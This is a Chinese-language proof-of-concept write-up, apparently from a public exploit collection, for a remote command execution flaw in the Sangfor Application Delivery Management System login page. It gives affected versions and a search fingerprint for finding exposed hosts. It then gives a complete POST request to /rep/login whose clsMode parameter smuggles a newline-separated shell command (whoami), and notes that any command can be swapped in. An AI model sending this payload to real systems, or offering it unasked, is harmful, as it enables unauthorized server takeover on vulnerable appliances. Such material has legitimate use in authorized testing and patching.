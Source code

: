 0x00 漏洞描述

深信服应用交付管理系统login存在远程命令执行漏洞，攻击者通过漏洞可以获取服务器权限，执行任意命令


![图片](https://github.com/Londly01/poc-hub/assets/118274389/916aedb1-dbe4-46d4-a960-9f51c7ced7f2)


0x01 漏洞发布时间: 2023年8月9日

0x02 漏洞影响

深信服 应用交付管理系统 7.0.8-7.0.8R5

0x03 网络测绘

fid="iaytNA57019/kADk8Nev7g=="

0x04 POC

clsMode=cls_mode_login%0Awhoami%0A&index=index&log_type=report&loginType=account&page=login&rnd=0&userID=admin&userPsw=123

0x05 漏洞复现

```
POST /rep/login HTTP/1.1
Host: xxxxxxxxxxx
Cookie: UEDC_LOGIN_POLICY_VALUE=checked
Content-Length: 124
Sec-Ch-Ua: "Not/A)Brand";v="99", "Google Chrome";v="115", "Chromium";v="115"
Accept: */*
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/115.0.0.0 Safari/537.36
Sec-Ch-Ua-Platform: "Windows"
Origin: https://1.1.1.1
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://1.1.1.1:85/rep/login
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

clsMode=cls_mode_login%0Awhoami%0A&index=index&log_type=report&loginType=account&page=login&rnd=0&userID=admin&userPsw=123

```
通过更改%0A中间的参数执行任意命令
